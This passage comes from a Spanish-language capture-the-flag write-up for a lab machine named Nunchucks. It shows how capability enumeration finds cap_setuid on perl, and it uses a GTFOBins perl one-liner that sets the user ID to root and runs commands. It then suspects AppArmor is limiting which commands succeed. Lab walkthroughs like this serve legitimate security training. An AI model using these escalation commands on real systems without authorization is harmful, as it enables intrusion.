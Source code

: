 Podríamos ver las capabilities:
```
david@nunchucks:~$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

david@nunchucks:~$ 
```

Observamos la capabilitie setuid para perl, buscamos en gtfobins para ver si hay posibilidad de escalar privilegios:

![](/imagenes/NunChucks/nun11.png)

Vemos una forma de ejecutar comandos de forma privilegiada con esto:
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Vamos a intentarlo:
```
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Sin embargo, no ocurre nada. Si probamos con otro comando:
```
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```
En este caso si lo ejecuta.
```
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ls /root/";'
ls: cannot open directory '/root/': Permission denied
```
Y ahora no.
```
david@nunchucks:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ls -la /root/root.txt";'
-r-------- 1 root root 33 Feb 14 05:17 /root/root.txt
```
Y ahora si, esto nos hace pensar que de alguna forma hay reglas definidas para qué cosas puedes hacer o puede ver. Si buscamos en la web encontramos que existe, por ejemplo, SELinux, que es un módulo de seguridad para el kernel de linux. Si buscamos algunas variantes de esto encontramos **AppArmor**, el cual funciona como un módulo de seguridad, sin embargo, restringe las capacidades de un programa y permite administrar todo eso. Podría ser que se esté aplicando, vamos a buscar si encontramos algo de eso en la máquina.
